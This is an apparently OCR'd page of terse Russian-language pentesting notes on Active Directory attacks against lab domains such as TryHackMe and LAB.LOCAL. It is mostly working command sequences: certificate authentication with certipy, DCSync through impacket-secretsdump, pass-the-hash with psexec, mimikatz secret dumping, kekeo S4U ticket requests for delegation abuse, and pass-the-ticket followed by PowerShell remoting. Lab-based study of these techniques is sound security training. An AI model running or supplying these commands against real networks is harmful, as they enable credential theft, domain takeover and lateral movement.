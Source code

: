 			авторизуемся с сертификатом и получаем креды

		certipy auth -pfx dc02.pfx

			делаем DCSYNC
		impacket-secretsdump 'LAB.LOCAL/dc02$@DC02.LAB.LOCAL' -hashes :6a5bfcba90a4ed0a8dc96448b7646c3e
			а потом  подключаемся
  		psexec.py lab.local/Administrator@172.16.19.5 -hashes aad3b435b51404eeaad3b435b51404ee:6e599ada28db049c044cc0bb4afeb73d


# DELEGATION

* Find accaunt with delegation
  
  		findDelegation.py INLANEFREIGHT.LOCAL/carole.rose:jasmine
* RBCD
		(ИЗ ВИНДВС)

		C:\Tools\mimikatz_trunk\x64\mimikatz.exe


		mimikatz # token::elevate

		mimikatz # lsadump::secrets   			----- Запросим пароль учетки имеюзей право делегироватся

		Затем просим TGT

  		kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted

		Затем просим TGS

		kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones(админ на нужной такчуке) /service:http/THMSERVER1.za.tryhackme.loc
		tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc

		Затем импортируем TGS через mimikatz

		mimikatz # privilege::debug
		Privilege '20' OK

		mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

		mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

		и входим

		И заходим через wsman


		New-PSSession -ComputerName thmserver1.za.tryhackme.loc

		Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc

		ИЛИ-------------

  		Нуежен тот кто влияет на конечный хост (DC, SQL, HTTP) потому что нужно добавить делегата в ACL хоста
